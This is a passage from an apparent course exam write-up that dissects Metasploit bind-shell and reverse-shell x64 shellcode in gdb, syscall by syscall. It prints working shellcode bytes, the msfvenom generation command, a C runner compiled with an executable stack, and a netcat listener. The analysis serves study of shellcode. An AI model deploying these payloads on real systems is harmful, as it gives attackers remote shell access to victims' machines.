SLAE64> gdb ./Payload_02
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Reading symbols from ./Payload_02...(no debugging symbols found)...done.
(gdb) 
(gdb) set disassembly-flavor intel
(gdb) b *&code
Breakpoint 1 at 0x4060
(gdb) 
```
Now can start debugging, let's `run` the program and `disassemble` it:
```asm
(gdb) run
Starting program: /root/SLAE64/Exam/Assignment05/Payload_02 
ShellCode Lenght: 57

Breakpoint 1, 0x0000555555558060 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0000555555558060 <+0>:	xor    rsi,rsi
   0x0000555555558063 <+3>:	mul    rsi
   0x0000555555558066 <+6>:	inc    esi
   0x0000555555558068 <+8>:	push   0x2
   0x000055555555806a <+10>:	pop    rdi
   0x000055555555806b <+11>:	mov    al,0x29
   0x000055555555806d <+13>:	syscall 
   0x000055555555806f <+15>:	push   rdx
   0x0000555555558070 <+16>:	pop    rsi
   0x0000555555558071 <+17>:	push   rax
   0x0000555555558072 <+18>:	pop    rdi
   0x0000555555558073 <+19>:	mov    al,0x32
   0x0000555555558075 <+21>:	syscall 
   0x0000555555558077 <+23>:	mov    al,0x2b
   0x0000555555558079 <+25>:	syscall 
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
   0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
   0x0000555555558087 <+39>:	push   rdx
   0x0000555555558088 <+40>:	movabs rdi,0x68732f6e69622f2f
   0x0000555555558092 <+50>:	push   rdi
   0x0000555555558093 <+51>:	push   rsp
   0x0000555555558094 <+52>:	pop    rdi
   0x0000555555558095 <+53>:	mov    al,0x3b
   0x0000555555558097 <+55>:	syscall 
   0x0000555555558099 <+57>:	add    BYTE PTR [rax],al
End of assembler dump.
(gdb) 
```
All looks good, let's dissect the functionality.

#### Section 1: `sys_socket`

In this section, the `socket` call is to be used. From it's man page can get the function definition:
```c
int socket(int domain, int type, int protocol);
```
Then registers for this syscall need to get the following values:
- RAX gets the syscall number, 0x29
- RDI gets the domain. As it's an IPv4 connection, value has to be 2 (AF_INET)
- RSI gets the type of the connection. As it's a TCP oriented connection, value has to be 0x01 (SOCK_STREAM)
- RDX gets the protocol. As it's an IP connection, value has to be 0x00
Let's debug this part, reviewing that registers get this values before the syscall, and understanding what's done in the code:
```asm
(gdb) stepi
0x0000555555558063 in code ()
(gdb) stepi
0x0000555555558066 in code ()
(gdb) stepi
0x0000555555558068 in code ()
(gdb) stepi
0x000055555555806a in code ()
(gdb) stepi
0x000055555555806b in code ()
(gdb) stepi
0x000055555555806d in code ()
(gdb) disassemble 
Dump of assembler code for function code:
   0x0000555555558060 <+0>:	xor    rsi,rsi        <== ZEROes RSI
   0x0000555555558063 <+3>:	mul    rsi            <== RAX <- 0 and RDX <- 0
   0x0000555555558066 <+6>:	inc    esi            <== RSI <- 1 for SOCK_STREAM
   0x0000555555558068 <+8>:	push   0x2            <== RDI <- 2 for AF_INET
   0x000055555555806a <+10>:	pop    rdi
   0x000055555555806b <+11>:	mov    al,0x29        <== RAX <- 0x29 for syscall number
=> 0x000055555555806d <+13>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
At this point, let's review that registers got the right values:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x29                41
rdi            0x2                 2
rsi            0x1                 1
rdx            0x0                 0
(gdb) 
```
Then the syscall can be run, as the parameters are correct. Remember that this syscall returns in RAX the socket descriptor.
```asm
(gdb) stepi
0x000055555555806f in code ()
```
#### Section 2: `sys_listen`
Here in this section the `listen` call. From the man page:
```c
int listen(int sockfd, int backlog);
```
Values for registers for this call have to be:
- RAX gets the syscall number, 0x32
- RDI gets the sock_descriptor
- RSI gets the backlog, 0x00
Let's understand the code here:
```asm
(gdb) stepi
0x0000555555558070 in code ()
(gdb) stepi
0x0000555555558071 in code ()
(gdb) stepi
0x0000555555558072 in code ()
(gdb) stepi
0x0000555555558073 in code ()
(gdb) stepi
0x0000555555558075 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**   
   0x000055555555806f <+15>:	push   rdx         <== Stack <- 0x00. RDX been zero'ed at +3
   0x0000555555558070 <+16>:	pop    rsi         <== RSI <- 0 for the parameter
   0x0000555555558071 <+17>:	push   rax         <== Pushes the socket descriptor in the stack
   0x0000555555558072 <+18>:	pop    rdi         <== RDI <- socket descriptor. Pop'ed from stack
   0x0000555555558073 <+19>:	mov    al,0x32     <== RAX <- Syscall number
=> 0x0000555555558075 <+21>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
Everyting looks correct. Let's check if the registers have the right values before the syscall:
```asm
(gdb) info registers rax rdi rsi
rax            0x32                50
rdi            0x3                 3
rsi            0x0                 0
(gdb) 
```
Good. s expected.
#### Section 3: `sys_accept`
For the`accept` call, it's defined as:
```c
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
```
Registers need this values:
- RAX for the syscall number, 0x2b
- RDI for the socket descriptor, that's already in RDI from the previous section (value "3")
- RSI a pointer to the sockaddr
- RDX the length of this struct
As i don't understand why no values are assigned to RSI and RDX in the code, a further read of the `accept()` man page, clarifies everything:
```c
...
When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.
...
```
This mean that this two registers can be set to 0x00. Let's understand what the code does:
```asm
(gdb) stepi
0x0000555555558077 in code ()
(gdb) stepi
0x0000555555558079 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x0000555555558077 <+23>:	mov    al,0x2b     <== Syscall number for accept()
=> 0x0000555555558079 <+25>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
RSI and RDX already got the NULL (`0x00`) value at instructions at +16 and + 18. Let's review the values of the registers before the syscall:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x2b                43
rdi            0x3                 3
rsi            0x0                 0
rdx            0x0                 0
(gdb) 
```
Good, the expected values. The syscall can be executed, and will return a socket descriptor in RAX. 

#### Section 4: `sys_dup2`
From the `dup2()` manpage:
```c
int dup2(int oldfd, int newfd);
```
This said, register values for this call have to be:
- RAX for the syscall number, 0x21
- RDI for the old socket descriptor. Has to be the value returned in RAX for the previous `accept` syscall
- RSI for new file descriptor to duplicate the old descriptor. Will be the file descriptor for `stdin`, `stdout`, and `stderr`. 

> Ass the `accept()` will pause the program until a connection is received, a `netcat` connection is done from another terminal. Still while debugging, the program wont work as expected because no `dup2()`and no `execve()` been done yet. 

Reviewing the code:
```asm
(gdb) stepi
0x000055555555807b in code ()
(gdb) stepi
0x000055555555807c in code ()
(gdb) stepi
0x000055555555807d in code ()
(gdb) stepi
0x000055555555807f in code ()
(gdb) stepi
0x0000555555558081 in code ()
(gdb) stepi
0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi         <== RDI has the socket descriptor from `socket` call (that's "3")
   0x000055555555807c <+28>:	pop    rsi         <== RSI <- Socket descriptor
   0x000055555555807d <+29>:	xchg   rdi,rax     <== RDI <- Socket descriptor for the `accept`. This is the 
   0x000055555555807f <+31>:	dec    esi         <== RDI = RDI - 1
   0x0000555555558081 <+33>:	mov    al,0x21     <== Syscall Number for `dup2`
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>   <== Jumps to +31 to `dup2()` another new file descriptor
**_REMOVED_**
End of assembler dump.
(gdb) 
```
The code simply places the old file descriptor into RDI, and the new one into RSI. The `jne` at +37 jumps back to +31, that decrements the value for RSI to duplicate another new file descriptor. New file descriptors will be duplicated in this order: `stderr`("2"), `stdout`("1") and then `stdin`("0"). When RSI value is "0", then the jump is not done and the program continues the flow.
To check that register valuesare correct before the syscall, let's place a breakpoinit at the +35 just before executing the syscall to be able to review it the 3 times it's called. Also at +39 `push rdx` after the duplication code to stop once it's done:
```asm
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
   0x0000555555558087 <+39>:	push   rdx
**_REMOVED_**
End of assembler dump.
(gdb) info registers rdi rsi rax
rdi            0x4                 4
rsi            0x2                 2
rax            0x21                33
(gdb) b *0x0000555555558083
Breakpoint 2 at 0x555555558083
(gdb) b *0x0000555555558087
Breakpoint 3 at 0x555555558087
(gdb) 
```
In the first loop to duplicate `stderr`, RAX has to be 0x21, RDI has to be "0x04", and RSI has to be "0x02". Let's check:
```asm
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x2                 2
(gdb) 
```
Let's `continue` execution. It will do the jump, do the operations, and again before executing the syscall. This is loop 2 to duplicate `stdout`, hence values for registers must be "0x21" for RAX, "0x04" for RDI and "0x01" for RSI:
```asm
(gdb) c
Continuing.
Breakpoint 2, 0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
**_REMOVED_**
End of assembler dump.
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x1                 2
(gdb) 
```
If `continue` again, will jump to +31 again for the duplication of `stdin`. Here the values have to be RAX to "0x21", RDI keeps the "0x04" value, and RSI updates to "0x00". 
```asm
(gdb) c
Continuing.
Breakpoint 2, 0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
**_REMOVED_**
End of assembler dump.
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x0                 0
(gdb) 
```
Awesome. Everything as it should. Now let's `continue` the program, and this time won't jump and will stop at +39, ending the `dup2` section:
```asm
(gdb) c
Continuing.
Breakpoint 3, 0x0000555555558087 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
=> 0x0000555555558087 <+39>:	push   rdx
**_REMOVED_**
End of assembler dump.
(gdb) 
```
#### Section 5: `sys_execve`

From the `execve` manpage:
```c
int  execve  (const  char  *filename,  
              const  char *argv [], const char
              *envp[]);
```
Also reviewing the code for this section in `gdb`, there is an hex value (`0x68732f6e69622f2f`) at +40 that ends being pushed in the stack at +50. Let's see what this value is:
```python
>>> "68732f6e69622f2f".decode('hex')[::-1]
'//bin/sh'
>>> 
```` 
This means that `execve` will execute the hardcoded command `//bin/sh`. And this defines values for the registers as follows:
- RAX: Syscall number, "0x3b"
- RDI: The memory address for the `//bin/sh` string
- RSI: The pointer to the memory address containing the address of the parameters. As no parameters are needed or used, simply gets the NULL value "0x00"
- RDX: NULL value, "0x00"
The Stack Technique is used, hence will need to review the values pushed in the stack before the syscall and the registers contents. `stepi`'ing and following the code, and stop just before the syscall:

```asm
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED__**
=> 0x0000555555558087 <+39>:	push   rdx
   0x0000555555558088 <+40>:	movabs rdi,0x68732f6e69622f2f
   0x0000555555558092 <+50>:	push   rdi
   0x0000555555558093 <+51>:	push   rsp
   0x0000555555558094 <+52>:	pop    rdi
   0x0000555555558095 <+53>:	mov    al,0x3b
   0x0000555555558097 <+55>:	syscall 
End of assembler dump.
(gdb) stepi                                        <== Executes push rdx
0x0000555555558088 in code ()
(gdb) x/xg $rsp
0x7fffffffe750:	0x0000000000000000                 <== RDX is Pushed. RDX had 0x00 value from +3
(gdb) stepi                                        <== Executes movabs rdi,"//bin/sh"
0x0000555555558092 in code ()
(gdb) stepi                                        <== Pushes String to Stack. Executes push rdi
0x0000555555558093 in code ()
(gdb) x/s $rsp                                     <== Check top of the stack
0x7fffffffe748:	"//bin/sh"                         <== The string is in the stack
(gdb) stepi                                        <== Pushes the address of //bin/sh string into 
0x0000555555558094 in code ()                       == the stack. Executes push rsp
(gdb) stepi                                        <== RDI <- @ //bin/sh string. Executes pop rdi
0x0000555555558095 in code ()
(gdb) stepi
0x0000555555558097 in code ()
(gdb) 
```
Now the **RIP** is pointing to the `syscall` instruction. Let's stop here. The stack contents for what's been just debuged should be:
```asm
  Stack Address          Stack Content        
|------------------|------------------------|
|  0x7fffffffe748  |   "//bin/sh"           | 
|  0x7fffffffe750  |   0x0000000000000000   |
|-------------------------------------------|
```
Let's check that's ok:
```asm
(gdb) x/2xg $rsp
0x7fffffffe748:	0x68732f6e69622f2f	0x0000000000000000
(gdb) 
```
Hence, RSI should have the **`0x7fffffffe748`** as per the instruction executed at +52:
```asm
(gdb) info registers rdi
rdi            0x7fffffffe748      140737488349000
(gdb) x/s $rdi
0x7fffffffe748:	"//bin/sh"
(gdb) 
```
And RSI and RDX should have NULL values as no parameters are passed to the function:
```asm
(gdb) info registers rsi rdx
rsi            0x0                 0
rdx            0x0                 0
(gdb) 
```
#### The End 
Ok, all looks as it was expected. After `stepi` into the syscall, the shell will be spawned in our `netcat` session that we had to open to continue debugging in the previous sections:
```asm
(gdb) stepi
process 1513 is executing new program: /usr/bin/dash
(gdb) 
```
With the expected results:

<img src="https://galminyana.github.io/img/A052_Shellcode_End.png" width="75%" height="75%">

> However, didnt came this following question to you? Where is the code to generate the random port number? This is answered below

### Thoughts
---
From this analysis, some tricks been learned:

- No need to use the `sys_bind` syscall. As the code did not use it, researched about why not being used, and came up with a comment at StackOverflow. There are some posts that says that if a TCP or UDP socket is being used, the kernel will automatically bind the socket to a suitable port number. **This also the way that the payload uses to generate the random port!**. As the kernel defines a random port and binds it to the connection, the code to create a random port is not needed and reduces considerably the shellcode size.
- When using the `sys_accept`, no value it returns in the sockaddr struct will be used. Researching reading the man page further, in the thirth paragraph of the Description section, says that _"When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL."_. Not having to do all this work saves us time and shellcode size.
- When the command to be executed by `sys_execve` does not have any parameter, the second and thirth parameter can be NULL. Then only the command is executed without parameters.
- The use of the `mul` instruction to initialize to "0x00" the value of RAX and RDX registers at the same time.

With this learnings, will have to review the payloads created in the [Assignment01](Assignment01) and [Assignment02](Assignment02) applying this learned techniques to make their shellcode size reduced.

### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment05) for this assignment contains the following files:

- [Payload_02.c](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Payload_02.c) : The C file cloned from `shellcode.c` to execute the `linux/x64/shell_bind_tcp_random_port` shellcode.
- [Shellcode_02.txt](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Shellcode_02.txt) : The rax shellcode in hex into a text file.

## Shellcode `linux/x64/shell_reverse_tcp` Dissection
---
---
### Introduction
---
The `msfvenom` shellcode that is going to be dissected in functionality is the `linux/x64/shell_reverse_tcp` payload.

Let's see it's options:
```bash
SLAE64>  msfvenom -p linux/x64/shell_reverse_tcp --list-options
Options for payload/linux/x64/shell_reverse_tcp:
=========================

       Name: Linux Command Shell, Reverse TCP Inline
     Module: payload/linux/x64/shell_reverse_tcp
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 74
       Rank: Normal

Provided by:
    ricky

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LHOST                   yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port

Description:
  Connect back to attacker and spawn a command shell
```

The payload is only 74 bytes and it requires the following parameters:
- `LPORT`: The port to listen for the incoming connection
- `LHOST`: The target to connect back

> NOTE: In the captures of `gdb`, comments are especified with the `<==` symbol. This is added when want to comment what's going on in the debugger. The symbol `==` means that the comment is a continuation from previous line comment. Also, not interesting sections from `gdb` output been replaced by a "**_REMOVED_**" text (this removed sections is code that are not of interest for what will be talking in that step).

### Creating the Shellcode
---
Let's generate the shellcode. Let's leave the default port "4444" and let's set LHOST to "127.0.0.1" (loopback address). Let's generate the payload shellcode:
```c
SLAE64> msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of c file: 335 bytes
unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";
SLAE64> 
```
The generated payload size, this time did not change in size.

### Run Shellcode. The C Template
---
To run the shellcode, will use of the `shellcode.c` template renamed to `Payload_03.c`. The shellcode is placed in the `code[]` string:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

void main()
{
        printf("ShellCode Lenght: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
Now it can be compiled:
```bash
gcc -fno-stack-protector -z execstack Payload_03.c -o Payload_03
```
When it's run, is listens for incoming connections in a random port. From another terminal using `netstat` check what's the listening port, and with `netcat`, can connect. A shell is spawned:

<img src="https://galminyana.github.io/img/A053_Shellcode_Run.png" width="75%" height="75%">

### `objdump`: First Approach
---
Once we get the executable, will use `objdump` to disassemble the ASM code. As `objdump` disassembles the code by sections, the one of interest is the `<code>` section. Is the one containing the payload shellcode:

```asm
SLAE64> objdump -M intel -D Payload_03
**_REMOVED_**
0000000000004060 <code>:
    4060:       6a 29                   push   0x29
    4062:       58                      pop    rax
    4063:       99                      cdq
    4064:       6a 02                   push   0x2
    4066:       5f                      pop    rdi
    4067:       6a 01                   push   0x1
    4069:       5e                      pop    rsi
    406a:       0f 05                   syscall
    406c:       48 97                   xchg   rdi,rax
    406e:       48 b9 02 00 11 5c 7f    movabs rcx,0x100007f5c110002
    4075:       00 00 01 
    4078:       51                      push   rcx
    4079:       48 89 e6                mov    rsi,rsp
    407c:       6a 10                   push   0x10
    407e:       5a                      pop    rdx
    407f:       6a 2a                   push   0x2a
    4081:       58                      pop    rax
    4082:       0f 05                   syscall
    4084:       6a 03                   push   0x3
    4086:       5e                      pop    rsi
    4087:       48 ff ce                dec    rsi
    408a:       6a 21                   push   0x21
    408c:       58                      pop    rax
    408d:       0f 05                   syscall 
    408f:       75 f6                   jne    4087 <code+0x27>
    4091:       6a 3b                   push   0x3b
    4093:       58                      pop    rax
    4094:       99                      cdq    
    4095:       48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f6e69622f
    409c:       73 68 00 
    409f:       53                      push   rbx
    40a0:       48 89 e7                mov    rdi,rsp
    40a3:       52                      push   rdx
    40a4:       57                      push   rdi
    40a5:       48 89 e6                mov    rsi,rsp
    40a8:       0f 05                   syscall
        ...
**_REMOVED_**
SLAE64> 
```
In the disassembled code, can observe the use of 4 syscalls. PEr the values in RAX, those syscalls are:
- `sys_socket`  value "0x29"
- `sys_connect` value "0x2a"
- `sys_dup2`    value "0x21"
- `sys_exec`    value "0x3b"
Also, a two hex values are pushed into the stack, this hex values corresponds to:
- A struct required for the `sys_connect` call, with value **`rcx,0x100007f5c110002`** that stands for IP "127.0.0.1" (`0x0100007f`), the TCP port "4444" (`0x115c`), a NULL and a "2".
- The string `/bin/sh` for **`0x68732f6e69622f`**
```python
>>> "68732f6e69622f".decode('hex')[::-1]
'/bin/sh'
>>> 
```

With this previous data, an idea of what the code does. Let's debug it

### The Fun: GDB Analysis
---
As how the shellcode is disasembled, the code can be divided in sections. This sections are defined by the different syscalls. To simplify the analysis, we going to debug section by section.

Let's load the exec file into `gdb`, setup the environment, place a breakpoint in the code section with `b *&code`, then `run` it and `disassemble`. Then the code for the shellcode is printed on screen:
```asm
root@debian:~/SLAE64/Exam/Assignment05# gdb Payload_03
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from Payload_03...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) break *&code
Breakpoint 1 at 0x4060
(gdb) run
Starting program: /root/SLAE64/Exam/Assignment05/Payload_03 
ShellCode Lenght: 17

Breakpoint 1, 0x0000555555558060 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0000555555558060 <+0>:	       push   0x29
   0x0000555555558062 <+2>:	       pop    rax
   0x0000555555558063 <+3>:	       cdq    
   0x0000555555558064 <+4>:	       push   0x2
   0x0000555555558066 <+6>:	       pop    rdi
   0x0000555555558067 <+7>:	       push   0x1
   0x0000555555558069 <+9>:	       pop    rsi
   0x000055555555806a <+10>:	syscall 
   0x000055555555806c <+12>:	xchg   rdi,rax
   0x000055555555806e <+14>:	movabs rcx,0x100007f5c110002
   0x0000555555558078 <+24>:	push   rcx
   0x0000555555558079 <+25>:	mov    rsi,rsp
   0x000055555555807c <+28>:	push   0x10
   0x000055555555807e <+30>:	pop    rdx
   0x000055555555807f <+31>:	push   0x2a
   0x0000555555558081 <+33>:	pop    rax
   0x0000555555558082 <+34>:	syscall 
   0x0000555555558084 <+36>:	push   0x3
   0x0000555555558086 <+38>:	pop    rsi
   0x0000555555558087 <+39>:	dec    rsi
   0x000055555555808a <+42>:	push   0x21
   0x000055555555808c <+44>:	pop    rax
   0x000055555555808d <+45>:	syscall 
   0x000055555555808f <+47>:	jne    0x555555558087 <code+39>
   0x0000555555558091 <+49>:	push   0x3b
   0x0000555555558093 <+51>:	pop    rax
   0x0000555555558094 <+52>:	cdq    
   0x0000555555558095 <+53>:	movabs rbx,0x68732f6e69622f
   0x000055555555809f <+63>:	push   rbx
   0x00005555555580a0 <+64>:	mov    rdi,rsp
   0x00005555555580a3 <+67>:	push   rdx
   0x00005555555580a4 <+68>:	push   rdi
   0x00005555555580a5 <+69>:	mov    rsi,rsp
   0x00005555555580a8 <+72>:	syscall 
   0x00005555555580aa <+74>:	add    BYTE PTR [rax],al
End of assembler dump.
(gdb) 
```
Now, to dissect the diferent sections of the code:

#### Section 1: 
As seen in previous Assignments, as this is a TCP/IP connection,`sys_socket` is defined as:
```c
int socket(int domain, int type, int protocol);
```
From this, registers for this syscall need to get the following values:
- RAX gets the syscall number, 0x29
- RDI gets the domain. As it's an IPv4 connection, value has to be 2 (AF_INET)
- RSI gets the type of the connection. As it's a TCP oriented connection, value has to be 0x01 (SOCK_STREAM)
- RDX gets the protocol. As it's an IP connection, value has to be 0x00
To review the value of the registers before the call, let's place a breakpoint just before the `sys_socket` syscall to check register values if match with the values they should have:
```asm
(gdb) b *0x000055555555806a
Breakpoint 2 at 0x55555555806a
(gdb) continue
Continuing.
Breakpoint 2, 0x000055555555806a in code ()
(gdb) disassemble 
Dump of assembler code for function code:
   0x0000555555558060 <+0>:	       push   0x29         <== RAX <- 0x29
   0x0000555555558062 <+2>:	       pop    rax
   0x0000555555558063 <+3>:	       cdq                 <== RDX <- 0
   0x0000555555558064 <+4>:	       push   0x2          <== RDI <- 2
   0x0000555555558066 <+6>: 	pop    rdi
   0x0000555555558067 <+7>:	       push   0x1          <== RSI <- 1
   0x0000555555558069 <+9>:	       pop    rsi
=> 0x000055555555806a <+10>:	syscall             <== `sys_socket`
   0x000055555555806c <+12>:	xchg rdi,rax        <== RDI <- socket descriptor
**_REMOVED_**
End of assembler dump.
(gdb) 
```
Dumping register values at this point, shows that everything is correct:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x29                41
rdi            0x2                 2
rsi            0x1                 1
rdx            0x0                 0
(gdb) 
```
Once the syscall is executed, the socket descriptor returned in RAX is saved into the RDI register for future use. The socket descriptor is "3":
```asm
(gdb) stepi
0x000055555555806c in code ()
(gdb) stepi
0x000055555555806e in code ()
(gdb) disassemble
**_REMOVED_**
   0x000055555555806c <+12>:	xchg   rdi,rax                <== Saves socket descriptor into RDI
=> 0x000055555555806e <+14>:	movabs rcx,0x100007f5c110002
**_REMOVED_**
(gdb) info registers rdi
rdi            0x3                 3
(gdb) 
```
#### Section 2: `sys_connect`
Definition for `sys_connect` from it's man page:
```c
int connect(int  sockfd, const struct sockaddr *serv_addr, socklen_t addrlen); 
```
For the definition of the function, registers will get the following values: 
- RAX : Syscall Number, "0x21"
- RDI : The sock_id from the open() call. From previous section, this value is "3"
- RSI : Addres of the sockaddr struct. 
- RDX : Length of the struct. 

First this done is to create the **sockaddr** struct and push it to the stack and then, update RSI with the pointer to memory for this struct. The struct definition is:
```c
server.sin_family = AF_INET
server.sin_port = htons(PORT)   // 4444
server.sin_addr.s_addr = inet_addr("127.0.0.1")
bzero(&server.sin_zero, 8)
```

The struct is created pushing it's 8 bytes already placed in the right order into the RBX register. Let's `stepi` until the value is placed in the stack and review showing the contents of the stack. Also will ensure that RSI points to the top of the stack where the struct is stored.Everything looks correct:

```asm
(gdb) stepi
0x0000555555558078 in code ()
(gdb) stepi
0x0000555555558079 in code ()
(gdb) stepi
0x000055555555807c in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555806e <+14>:	movabs rcx,0x100007f5c110002     <== Struct contents into RBX
   0x0000555555558078 <+24>:	push   rcx                       <== Struct into the Stack. 
                                                                     ==RSP has the @ of struct
   0x0000555555558079 <+25>:	mov    rsi,rsp                   <== RSI <- @ struct
=> 0x000055555555807c <+28>:	push   0x10
**_REMOVED_**
End of assembler dump.
(gdb) x/8xb $rsp
0x7fffffffe750:	0x02	0x00	0x11	0x5c	0x7f	0x00	0x00	0x01
(gdb) x/8db $rsp
0x7fffffffe750:	2	0	17	92	127	0	0	1
(gdb) info registers rsi
rsi            0x7fffffffe750      140737488349008                  <== Address of RSP. Where struct it
(gdb) 
```
Once the struct is stored and RSI points to it, next steps before the syscall are trivial. RDX needs to get the length of the **sockaddr** struct that's "16" bytes, and RAX gets the syscall number "0x21". Keep in mind, that RDI already stores the socket descriptor. Placing a breakpoint before syscall executes and `continue`, will be able to review if the contents of the registers are the expected ones:
```asm
(gdb) break *0x0000555555558082
Breakpoint 3 at 0x555555558082
(gdb) c
Continuing.
Breakpoint 3, 0x0000555555558082 in code ()
(gdb) disassemble 
**_REMOVED_**
   0x000055555555806e <+14>:	movabs rcx,0x100007f5c110002
   0x0000555555558078 <+24>:	push   rcx
   0x0000555555558079 <+25>:	mov    rsi,rsp
   0x000055555555807c <+28>:	push   0x10
   0x000055555555807e <+30>:	pop    rdx
   0x000055555555807f <+31>:	push   0x2a
   0x0000555555558081 <+33>:	pop    rax
=> 0x0000555555558082 <+34>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) info registers rax rdi rsi rcx rsp
rax            0x2a                42
rdi            0x3                 3
rsi            0x7fffffffe750      140737488349008
rcx            0x100007f5c110002   72058141043392514
(gdb) x/16xb $rsi
0x7fffffffe750:	0x02	0x00	0x11	0x5c	0x7f	0x00	0x00	0x01
0x7fffffffe758:	0x83	0x51	0x55	0x55	0x55	0x55	0x00	0x00
(gdb) 
```

> At this point, noticed that the **&bzero** parameter for the struct has not been pushed into the stack... Taking note of this and will review later why.

Before doing, let's open a `netcat` listener in another terminal as program will stop until the connect is successfull:
```bash
SLAE64> nc -lvp 4444
listening on [any] 4444 ...

```

As the registers are correct and all seems ok, `stepi` into the syscall and establish the connection.

#### Section 3: `sys_dup2`
Time to duplicate the socket descriptor with `stdin`, `stdout` and `stderr`. From the `sys_dup2` function definition:
```c 
int dup2(int oldfd, int newfd);
```
Values for registers before the syscall have to be:
- RAX : "0x21" for the syscall number
- RDI : The socket descriptor. From before in Section 1, it's value is "3"
- RSI : The file descriptor for standard input, output and error
The code, as always with `dup2`, does a bucle 3 times, one for each file descriptor. For that, RSI is initialized with "2" value, and on each loop, decrements until "0" to end the loop and continue the execution. This part is not going to be debugged, as it's the same as other assignments and the code is obvious that does the right registers assignments for the correct duplication:
```asm
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
=> 0x0000555555558084 <+36>:	push   0x3
   0x0000555555558086 <+38>:	pop    rsi
   0x0000555555558087 <+39>:	dec    rsi
   0x000055555555808a <+42>:	push   0x21
   0x000055555555808c <+44>:	pop    rax
   0x000055555555808d <+45>:	syscall 
   0x000055555555808f <+47>:	jne    0x555555558087 <code+39>
   0x0000555555558091 <+49>:	push   0x3b
**_REMOVED_**
End of assembler dump.
(gdb) 
```
